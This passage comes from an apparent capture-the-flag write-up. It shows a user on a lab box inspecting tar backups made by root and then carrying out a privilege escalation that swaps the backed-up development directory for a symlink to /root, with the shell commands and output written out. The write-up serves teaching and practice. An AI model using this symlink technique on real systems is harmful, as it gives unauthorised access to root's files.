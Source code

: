     alekos@joker:~/backup$ file dev-1596506701.tar.gz
    dev-1596506701.tar.gz: POSIX tar archive (GNU)
    

Looking at one of the archives, it contains a bunch of Python code:

    
    
    alekos@joker:~/backup$ tar tvf dev-1596506701.tar.gz
    -rw-r----- alekos/alekos     0 2017-05-18 19:01 __init__.py
    -rw-r----- alekos/alekos  1452 2017-05-18 19:01 application.py
    drwxrwx--- alekos/alekos     0 2017-05-18 19:01 data/
    -rw-r--r-- alekos/alekos 12288 2017-05-18 19:01 data/shorty.db
    -rwxrwx--x alekos/alekos   781 2020-08-04 04:41 df
    -rw-r----- alekos/alekos   997 2017-05-18 19:01 models.py
    drwxr-x--- alekos/alekos     0 2017-05-18 19:01 static/
    -rw-r----- alekos/alekos  1585 2017-05-18 19:01 static/style.css
    drwxr-x--- alekos/alekos     0 2017-05-18 19:01 templates/
    -rw-r----- alekos/alekos   524 2017-05-18 19:01 templates/layout.html
    -rw-r----- alekos/alekos   231 2017-05-18 19:01 templates/not_found.html
    -rw-r----- alekos/alekos   725 2017-05-18 19:01 templates/list.html
    -rw-r----- alekos/alekos   193 2017-05-18 19:01 templates/display.html
    -rw-r----- alekos/alekos   624 2017-05-18 19:01 templates/new.html
    -rw-r----- alekos/alekos  2500 2017-05-18 19:01 utils.py
    -rw-r----- alekos/alekos  1748 2017-05-18 19:01 views.py
    

These look like the same files that are in `development`:

    
    
    alekos@joker:~/development$ find . -type f
    ./data/shorty.db
    ./templates/layout.html
    ./templates/not_found.html
    ./templates/list.html
    ./templates/display.html
    ./templates/new.html
    ./__init__.py
    ./views.py
    ./models.py
    ./application.py
    ./static/style.css
    ./utils.py
    

It looks like root is is creating a new archive every five minutes with the
contents of the `development` directory, likely using a `*`.

### Exploit #1 - File Read as Root via Symbolic Link

As I believe that root is running `tar` on the `development` directory every
five minutes, I’ll just move the `development` directory and replace it with a
symbolic link pointing to `/root`:

    
    
    alekos@joker:~$ mv development{,.orig}
    alekos@joker:~$ ln -s /root development
    alekos@joker:~$ ls -l 
    total 20
    drwxrwx--- 2 root   alekos 12288 Aug  4 04:20 backup
    lrwxrwxrwx 1 alekos alekos     5 Aug  4 04:22 development -> /root
    drwxr-x--- 5 alekos alekos  4096 May 18  2017 development.orig
    -r--r----- 1 root   alekos    33 May 19  2017 user.txt
    